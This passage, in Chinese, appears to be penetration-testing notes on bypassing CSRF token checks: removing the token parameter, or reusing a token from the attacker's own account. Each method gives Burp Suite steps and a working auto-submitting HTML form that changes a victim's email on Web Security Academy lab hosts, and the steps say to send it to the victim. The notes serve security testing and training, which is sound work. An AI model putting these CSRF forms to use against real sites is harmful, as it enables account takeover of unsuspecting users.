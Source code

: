 ```
</html>

5. 完成，将此内容发送给受害者。
```



## 绕过方法 - 2：从 POST 请求中删除 csrf 参数。

```
测试用例：CSRF 令牌验证依赖于令牌是否存在

1. 与功能交互并拦截请求。
2. 将此请求发送到repeater。
3. 删除所有 CSRF 参数并生成 CSRF POC
4. 根据您的偏好进行编辑，例如：

<!DOCTYPE html>
<html>
<!-- CSRF PoC - 由 Burp Suite i0 SecLab 插件生成 -->
<body>
<form method="POST" action="https://ac8a1fbd1e6d76ae806817f900d50032.web-security-academy.net:443/email/change-email">
<input type="text" name="email" value="natsu@natsu.com">
</form>
<script>
document.forms[0].submit();
</script>
</body>
</html>

5. 完成，将此内容发送给受害者。
```



## 绕过方法 - 3：在攻击中输入您自己的帐户生成的 CSRF 令牌。

```
测试用例：CSRF 令牌未与用户会话绑定。

1. 与功能交互并拦截请求。
2. 右键单击生成 CSRF POC。
3. 将代码复制到 file.html 中，删除所有会话令牌。
4. 丢弃请求。
5. 将 file.html 发送给受害者。

CSRF 代码示例：

<!DOCTYPE html>
<html>
<!-- CSRF PoC - 由 Burp Suite i0 SecLab 插件生成 -->
<body>
<form method="POST" action="https://acd81f251e0c762980c31ae600c70041.web-security-academy.net:443/email/change-email">
<input type="text" name="email" value="natsu@natsu.com">
<input type="text" name="csrf" value="NqdmYFyfHgQl8JWLKd7YTOC24Tqdedpw">
</form>
<script>
document.forms[0].submit();
</script>
</body>
</html>
```
